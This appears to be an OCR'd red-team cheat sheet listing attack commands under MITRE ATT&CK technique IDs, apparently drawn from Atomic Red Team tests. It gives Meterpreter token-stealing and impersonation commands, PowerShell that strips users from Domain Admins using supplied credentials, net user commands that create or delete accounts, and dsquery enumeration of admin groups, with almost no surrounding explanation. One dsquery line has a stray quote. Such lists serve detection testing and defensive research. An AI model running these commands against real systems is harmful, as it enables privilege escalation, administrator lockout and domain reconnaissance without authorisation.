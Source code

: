##T1548: Abuse Elevation Control Mechanism
##T1134: Access Token Manipulation
* Token Stealing:
use incognito
list_tokens -u
impersonate_token DOMAIN\\User
or:
steal_token {pid}
* Token Stealing:
steal_token pid#
* powercmd.exe /c/credentials/tokens
* powercmd.exe /c/management/runas
* powercmd.exe /c/privesc/getsystem
##T1531: Account Access Removal
* $PWord = ConvertTo-SecureString -String password -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{super_user}, $PWord
if((Get-ADUser #{remove_user} -Properties memberof).memberof -like "CN=Domain Admins*"){
  Remove-ADGroupMember -Identity "Domain Admins" -Members #{remove_user} -Credential $Credential -Confirm:$False
} else{
    write-host "Error - Make sure #{remove_user} is in the domain admins group" -foregroundcolor Red
}
* $PWord = ConvertTo-SecureString -String #{super_pass} -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList domain\super_user, $PWord
if((Get-ADUser #{remove_user} -Properties memberof).memberof -like "CN=Domain Admins*"){
  Remove-ADGroupMember -Identity "Domain Admins" -Members #{remove_user} -Credential $Credential -Confirm:$False
} else{
    write-host "Error - Make sure #{remove_user} is in the domain admins group" -foregroundcolor Red
}
* $PWord = ConvertTo-SecureString -String #{super_pass} -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{super_user}, $PWord
if((Get-ADUser remove_user -Properties memberof).memberof -like "CN=Domain Admins*"){
  Remove-ADGroupMember -Identity "Domain Admins" -Members remove_user -Credential $Credential -Confirm:$False
} else{
    write-host "Error - Make sure remove_user is in the domain admins group" -foregroundcolor Red
}
* net user AtomicAdministrator #{new_user_password} /add
net.exe user AtomicAdministrator #{new_password}
* net user #{user_account} User2ChangePW! /add
net.exe user #{user_account} #{new_password}
* net user AtomicUser #{new_user_password} /add
net.exe user AtomicUser /delete
* net user #{user_account} #{new_user_password} /add
net.exe user #{user_account} HuHuHUHoHo283283@dJD
* net user #{user_account} User2DeletePW! /add
net.exe user #{user_account} /delete
##T1087: Account Discovery
* net user [username] [/domain]
* cmd.exe /c net user [username] [/domain]
* dsquery group "ou=Domain Admins,dc=domain,dc=com"
dsquery user "dc=domain,dc=com"
dsquery * OU="Domain Admins",DC=domain,DC=com -scope base -attr SAMAccountName userPrincipalName Description
dsquery * -filter "(&(objectCategory=contact)(objectCategory=person)(mail=*)(objectClass=user))" -Attr samAccountName mail -Limit 0
dsquery * -filter "(&(objectCategory=group)(name=*Admin*))" -Attr name description members
* cmd.exe /c dsquery group "out=Domain Admins",dc=domain,dc=com"
cmd.exe /c dsquery user "dc=domain,dc=com"